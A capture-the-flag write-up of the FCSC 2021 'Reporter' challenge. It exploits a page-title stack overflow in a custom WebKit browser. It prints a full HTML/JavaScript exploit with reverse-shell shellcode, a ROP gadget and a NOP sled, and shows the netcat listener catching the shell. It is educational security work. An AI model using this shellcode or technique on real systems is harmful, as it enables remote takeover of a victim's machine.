 # Reporter (pwn - 499 pts)

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
> http://challenges2.france-cybersecurity-challenge.fr:4009/

## Testing the water
As soon as I saw this description, I got hyped, "Cool a browser exploit !" I thought. "It's the perfect occasion to learn more about WebKit and JavaScriptCore"... What a fool.

Checksec gives us the following output :
![](attachment/Clipboard_2021-04-30-20-43-43.png)

Keep in mind that there is no NX so we assume that all pages, including the stack and the heap are executable on the remote server.

`ldd fcsc_browser` terminated me :
```bash
libwebkit2gtk-4.0.so.37 => /lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f85355c3000)
libjavascriptcoregtk-4.0.so.18 => /lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f2ba5525000)
```
So no exploit for a custom version of WebKit or JSCore...

Jumping in Binary Ninja, we can see a bunch of C++ functions
![](attachment/Clipboard_2021-04-30-20-55-21.png)

Starting from the top, we have the `addBrowser` function which uses the `memcpy` function to concatenate "FCSC Browser - " with the input string using the size of the input string. Keep that in mind.
![](attachment/Clipboard_2021-04-30-21-01-16.png)

The `webview_title_change` function calls the `addBrowser` function with the utf8-decoded (with the `decode_utf8` function) page title retrieved with `webkit_web_view_get_title` function.
![](attachment/Clipboard_2021-04-30-21-01-46.png)

Well then... this is pretty straightforward. Since we control the page title we have an overflow in the `addBrowser` function. That's the good part. The annoying part is that we can't use null bytes since it would terminate our payload.

## Discovering the bug
Create a `index.html` file, run `python3 -m http.server` and start `gdb` with `fcsc_browser` as parameter and run : `r 0.0.0.0:8000` for the browser to load our `index.html` straight away.
Here's its content :
```html
<script>
	var payload = "a";
	payload += "A".repeat(8);
	payload += "B".repeat(8);
	payload += "C".repeat(8);
	payload += "D".repeat(8);
	payload += "E".repeat(8);
	payload += "F".repeat(8);
	payload += "G".repeat(8);
	payload += "H".repeat(8);
	payload += "I".repeat(8);
	payload += "J".repeat(8);
	payload += "K".repeat(8);
	payload += "L".repeat(8);
	payload += "M".repeat(8);
	payload += "N".repeat(8);
	payload += "O".repeat(8);
	payload += "P".repeat(8);
	payload += "Q".repeat(8);
	payload += "R".repeat(8);

	document.title = payload;
</script>
```
We simply use JavaScript to create an "egg finder" that will find how many bytes are required in the title for us to overwrite the return address of the `addBrowser` function.
The little "a" at the beginning is just to make sure that the rest of the payload is 8-bytes aligned, making it easier to read (or maybe only prettier).

Once the browser ran in `gdb`, it segfault at the return of the function and we can see 8 "R"s at the top of the stack... We control the return address at `RRRRRRRR`.
![](attachment/Clipboard_2021-05-01-22-23-50.png)

## Crafting the ropchain
"Easy !" you would think, as I did, but the absence of a null byte prevents you from crafting any ropchain longer than a single quadword (8 bytes) since pretty much every address contains several null bytes. So either we have to find another vuln that we can chain with this overflow (which I didn't find), or... you have to find a sort of "one ROP gadget" in the binary to jump on our page title.
In order to find every pointer to our input that we can set on top of the stack before `ret`ting, I ran a `gef config context.nb_lines_stack 500; context stack` to display 500 stack addresses containing a pointer to our input. Here they are :
```bash
0x00007fffffffd510│+0x0028: 0x0000000000a2c610  →  "FCSC Browser - aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEE[...]"	 ← $rax
0x00007fffffffd530│+0x0048: 0x00000000006d1b00  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd550│+0x0068: 0x00000000009c4f20  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd578│+0x0090: 0x00007fffffffd6f8  →  0x4c4c4c4c4c4c4c4b
0x00007fffffffd5a0│+0x00b8: 0x0000000000ae7090  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffdab0│+0x05c8: 0x00007fffe6efdd3b  →  "0.0.0.0:8000/"
```
The first one isn't viable since "FCSC Browser" aren't valid instructions.
I kept the last one in mind "just in case". We'll maybe have to buy a domain name containing an alphanumerical reverse-shell shellcode...
Using ropper, you can search for a specific semantic such as `reg+=value`, so we'll be searching for `rsp+=[72,104,152,184,1480]`
```
$ ropper --file fcsc_browser --semantic "rsp+=72"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=104"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=152"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=184"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=1480"
[INFO] 0 gadgets found
```
No gadget found. At this point, I entered a phase of despair and since the first stage of grief is denial, I started looking manually for gadgets that increased `rsp` as I wanted before executing `ret` with `ropper --file fcsc_browser`, just in case `ropper` had a bug on the `--semantic` option. Obviously I didn't find any gadget that would increment `rsp` for us before executing `ret`... but I found something quite interesting : `0x000000000040d593: jmp qword ptr [rax];`. Since `rax` is pointing to a heap pointer on the stack, itself pointing to the title, I started looking for something like something like `add BYTE PTR [rax],al` (which is pretty common since its opcode is `00 00`) in order to increment the heap pointer before `jmp qword ptr`ing on it... and there it was... the one gadget :
`0x0000000000403edf: add byte ptr [rax], ah; jmp qword ptr [rax];`
Please take a moment to admire the gadget.

Replace the all the `R` with `payload += String.fromCharCode(0xdf, 0x3e, 0x40);` in order to jump on our gadget.
![](attachment/Clipboard_2021-05-01-22-59-07.png)
Only one nibble, in this case the four heaviest bits, of the `ah` reg is controlled by the ASLR so we'll just have to send multiple times our exploit in case it doesn't work straight away.
I found [this reverse-shell shellcode](http://shell-storm.org/shellcode/files/shellcode-857.php) and luckily enough, it didn't have any null byte in it. Once modified, craft the final exploit :
```html
<script>
	var payload = "";

	payload += "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a";
	payload += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0";
	payload += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24";
	payload += "\x02\x05\x39\xc7\x44\x24\x04" + String.fromCharCode(insert, your, IP, address) + "\x48\x89\xe6\x6a\x10";
	payload += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48";
	payload += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a";
	payload += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54";
	payload += "\x5f\x6a\x3b\x58\x0f\x05";

	payload = payload.padStart(136, "\x90");
	payload += "\x90";
  // 0x0000000000403edf
	payload += String.fromCharCode(0xdf, 0x3e, 0x40);

	document.title = payload;
</script>
```
The `payload.padStart(136, "\x90")` will serve a nop sled to our shellcode to increase the chances of success.
Once the exploit hosted on any IP, rerun a `python3 -m http.server` and send the link.
After a couple tries (actually fifteen), I got my shell :
```bash
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from received!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
fcsc_browser
flag
main.py
run.sh
static
templates
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

Yay !

## Conclusion

There's always a one gadget waiting for you, finding it depends on how much time you want to invest searching it
